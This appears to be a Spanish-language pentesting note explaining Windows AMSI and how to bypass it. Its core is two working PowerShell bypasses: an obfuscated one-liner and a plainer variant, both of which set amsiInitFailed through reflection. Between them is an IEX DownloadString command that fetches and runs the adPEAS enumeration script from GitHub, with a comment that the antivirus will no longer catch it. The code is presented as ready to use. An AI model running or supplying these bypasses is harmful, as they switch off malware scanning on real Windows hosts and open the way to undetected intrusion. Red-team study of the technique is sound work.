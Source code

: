 # Bypass AMSI

Tags: #Bypass #Windows #Powershell #AMSI

* [AMSI.fail](https://amsi.fail/)

AMSI (Antimalware Scan Interface) es una interfaz estándar desarrollada por Microsoft para que las soluciones antimalware de Windows puedan analizar contenido en busca de actividades maliciosas. Introducida con Windows 10, AMSI trabaja junto a otros componentes de seguridad, como Windows Defender, para ofrecer una capa adicional de protección.

De forma sencilla, AMSI permite que aplicaciones y servicios envíen contenido a un motor antimalware para ser evaluado antes de su ejecución, lo que resulta especialmente útil para analizar scripts en tiempo real. Es capaz de detectar y escanear scripts en lenguajes como PowerShell, VBScript o Ruby, incluso cuando están ofuscados.
## Por qué los ciberdelincuentes buscan evadir AMSI?

```bash 
AMSI (Antimalware Scan Interface) representa una barrera crítica para los atacantes debido a su capacidad para detectar comportamientos maliciosos en tiempo real, incluso antes de que el código se ejecute. Esto lo convierte en un objetivo prioritario para quienes intentan evadir la detección y garantizar el éxito de sus ataques, especialmente aquellos basados en scripts ofuscados o técnicas de ejecución en memoria.

- Detección en tiempo real: AMSI analiza el contenido justo antes de que se ejecute, bloqueando ataques antes de que se materialicen, lo que obliga a los ciberdelincuentes a evadir esta capa de seguridad para ejecutar su código malicioso.
    
- Análisis de scripts ofuscados: Aunque los atacantes ofuscan sus scripts para evitar las soluciones tradicionales, AMSI puede escanearlos tras ser desofuscados, cuando están en su forma original, lo que complica los intentos de ocultar intenciones maliciosas.
    
- Integración amplia: AMSI no se limita a analizar scripts; también puede escanear otros contenidos arbitrarios enviados por diversas aplicaciones y servicios, ampliando su alcance y reduciendo las posibilidades de éxito de un atacante.
    

Dada su eficacia, los ciberdelincuentes recurren a diversas técnicas para evadir AMSI, como:

- Cargar bibliotecas antiguas: Usar versiones anteriores de DLLs que no soporten AMSI para desactivar su funcionalidad.
- Manipulación de memoria: Alterar áreas de memoria relacionadas con AMSI para inutilizarlo.
- Ofuscación avanzada: Implementar métodos innovadores para intentar superar las capacidades de análisis de AMSI.
- Abusar de herramientas legítimas: Utilizar técnicas como _Living off the Land_ para ejecutar acciones maliciosas mediante herramientas legítimas que pueden eludir el escaneo o generar confianza.

La capacidad de AMSI para identificar amenazas en tiempo real lo convierte en un desafío constante para los atacantes, quienes buscan superarlo con técnicas cada vez más sofisticadas.
```

Los siguientes scripts los podemos ejecutar en la consola de  **Powershell**  antes de  ejecutar un comando que descargue un binario que detecte el antivirus como lo puede ser **adPeas**, etc... 

```powershell 
❯ S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```powershell
# Ya no nos lo detectara el Antivirus 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')
```

## Otra alternativa para el ByPass:

```Powershell 
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$me = $field.GetValue($field)
$me = $field.SetValue($null, [Boolean]"hhfff")
```